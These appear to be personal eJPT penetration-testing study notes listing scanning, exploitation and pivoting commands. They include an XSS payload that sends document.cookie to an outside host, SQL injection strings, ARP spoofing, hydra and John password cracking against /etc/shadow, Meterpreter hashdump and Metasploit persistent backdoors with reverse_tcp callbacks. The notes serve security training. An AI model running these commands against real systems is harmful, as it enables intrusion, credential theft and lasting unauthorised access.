 Methadology

# Overall
1. Scan for Network
2. Scan for Services
3. Run tests on all possible services
4. Password Crack/ARP Spoof if needed
5. Pivot

# Scanning

`whois <site_url>`

Network
```
fping -a -g <IP Range>
nmap -sn <ip>/<CIDR notation>
```

Port Scanning
```
nmap -sV -A -p1-65535 <IP Addresses>
nmap -sT <IP Addresses> # TCP Scan (Fast)
nmap -sS <IP Addresses> # Stealth Scan
```

Vulnerability scanner
Use Nessus
```
nikto -h <url>
```

# Services

Wordlists are usually in `/usr/share/wordlists/`

Service | Commands
--|--
SSH (22) | `ssh <user>@<ip> -p <port>` <br> Download files: `scp <user>@<ip>:<path_to_file> <local_directory>`
Telnet | `telnet <IP>`
Web (80/443): HTTP|Look through the website<br>`gobuster dir -u http://<ip> -w <wordlist> -x html,php,js`<br> ` dirb http://10.10.10.2/ /usr/share/wordlists/dirb/common.txt`
Web (80/443): XSS | Test every injection point for `<script>alert(1);</script>`, like input boxes, GET/POST request parameters <br> When done, can send cookies back to box by `<script>var i = new Image();i.src = "http://192.168.99.11/get.php?"+document.cookie;</script>`
Web: SQL |  Test the fields using `' UNION SELECT user(); -- -` or other payloads <br> Then `sqlmap -u <url> (-p <injection_parameter>) (--tables /--dump)`
Samba |![4f1136b720fe26e02297c55ffcf4dc3e.png](../../_resources/ae56a25a7d8742e08a4fb1cd19297e7d.png) Exploit Null Session:`enum4linux -A <ip>`<br> Connect: `smbclient //<ip>/<share> -U <user> -P <password>` , https://superuser.com/questions/856617/how-do-i-recursively-download-a-directory-using-smbclient/856640
MySQL | Connect using `mysql -u<username> -p<password> -h <ip_address>` <br> `show databases;use <database>;show tables;...`




Other Things
1. Google Hacking

## ARP Spoofing
```
echo 1 > /proc/sys/net/ipv4/ip_forward # So once traffic reaches us, proceeds to the vicitm

arpspoof -i tap0 -t 10.10.10.2 -r 10.10.10.6
```

After that use Wireshark to hack
* Select VPN Network Interface
* Follow TCP Stream
* View data

# Exploit

## Password Cracking
```
hydra -L <users> -P <passwords.txt> <ip> <service eg. ssh>
```
eg. `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt`

Example services: ssh, mssql
/usr/share/ncrack/minimal.usr
### Linux Passwords

password file from `/etc/passwd`, shadow file from `/etc/shadow`
```
unshadow <password_file> <shadow_file> > <output_file>
john <password_hash/hash_list>
john -wordlist /path/to/wordlist -users=users.txt hashfile
```

### Windows Passwords
ophcrack

## Metasploit
1. Use Nessus to get a scan
	1. Google all services and Find related Issues
2. Metasploit `msfconsole`
	```
	search <keyword>
	use <module>
	show options
	set VAR <value>
	exploit
	```
3. Meterpreter
	```
	 background
	 session -l # Lists your open sessions
	 sessions -i 3 # Interact with/ open/ enter session 3
	 getsystem # PrivEsc for Windows
	 sysinfo, ifconfig, route, getuid # Internal Enumeration
	 search -f file.txt
	 download thisFile.txt /in/my/directory/here # Also has upload
	 hashdump # Dumps Windows SAM password hashes  
	 shell
	```
    1. If cannot bypass UAC for PrivEsc, use `exploit/windows/local/bypassuac` module, which only needs the meterpreter session
    2. VPN have to be connectged in VM to use VM's metasploit to exploit
4. Persistence
	1.	Windows Vista and Above
	```
	# persistent backdoor - need meterpreter session
	msf > use exploit/windows/local/s4u_persistence
	msf (s4u_persistence) > set session 2
	#session => 2
	msf (s4u_persistence) > set trigger logon
	#trigger => logon
	msf (s4u_persistence) > set payload windows/meterpreter/reverse_tcp
	msf (s4u_persistence) > set lhost 1.2.3.4
	msf (s4u_persistence) > set lport 1234
	msf (s4u_persistence) > exploit
	```
	2. Others
	```
	use exploit/windows/local/persistence
	set reg_name backdoor
	set exe_name backdoor
	set startup SYSTEM
	set session 1
	set payload windows/meterpreter/reverse_tcp
	set exitfunc process
	set lhost 192.168.99.100
	set lport 5555
	set DisablePayloadHandler false
	exploit //if the backdoor doesn't start immediately, use "exploit -j" instead
	```
	3. Connecting to backdoor
	```
	msf (s4u_persistence) > use exploit/multi/handler
	msf (handler) > set payload windows/meterpreter/reverse_tcp
	msf (handler) > exploit
	# once victim restarts and logons, we will get a meterpreter shell
	```
	
	
	Upgrading regular tcp shell to meterpreter
	```
	use exploit/multi/handler
	...
	run
	<Escalate to root privileges>
	^Z
	sessions -u <Session_ID>
	sessions -i <new session>
	```
	
# Pivoting
Connecting to other network

`ip route add {CONNECT TO THIS NETWORK} via {FROM THIS IP}`
* `ip route add 10.10.10.0/8 via 10.10.10.99`

Use metasploit
```
portfwd add -l 8022 -p 22 -r 172.16.37.1
```

# Other Resources

When Stuck
1. Enumerate Harder & Everything

eJPT Notes
https://github.com/hunterluker/eJPT-notes/blob/master/pages/networking.md
https://github.com/osV22/ejpt_notes
https://refabr1k.gitbook.io/oscp/elearnsecurity-ejpt/untitled

Other Notes
https://docs.google.com/document/d/1eOHgb41bx2c0vzEyQKsFVulM22J37d9Pn98xAJOzzcc/edit#
https://www.tutorialspoint.com/metasploit/metasploit_pivoting.htm
